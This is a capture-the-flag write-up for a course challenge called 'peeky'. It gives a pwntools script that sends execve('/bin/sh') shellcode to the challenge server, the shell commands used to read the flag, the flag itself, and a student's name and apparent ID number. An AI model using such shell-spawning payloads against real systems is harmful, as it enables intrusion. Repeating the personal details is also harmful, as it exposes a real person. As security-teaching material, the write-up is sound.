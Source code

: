 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "peeky"
- story: same as peek, but without Null bytesFinally, actual shell code shellcode. The flag path is randomized, try spawning a shell! 
- the folling script automatically exploits it:
```python
#!/usr/bin/env python3

import pwn

pwn.context.arch = 'amd64'
conn = pwn.remote('tasks.ws24.softsec.rub.de', 32885)

# shellcode from the slides
shellcode = pwn.asm('''
    mov rax, 59;
    lea rdi, [rip + sh];
    mov rsi, 0;
    mov rdx, 0;
    syscall;
    ret;
sh:
    .string "/bin/sh"
''')

print(f'shellcode: {shellcode.hex()}')
conn.recvuntil(b'please enter your (hex-encoded) shellcode, at most 4096 bytes:')
conn.sendline(shellcode.hex().encode())
conn.interactive()
```
- then
```
cd /
ls
cat flag-WkdN9EK48WVjMupL0drrdUmlVwMlm9cW
```

- flag:
```
softsec{gF-TxpcW2H0n6_emtKhUnYrmvDxVspwqfMHP0FYZOb6NOIgz92Guq7QGr0xzgY9p}
```
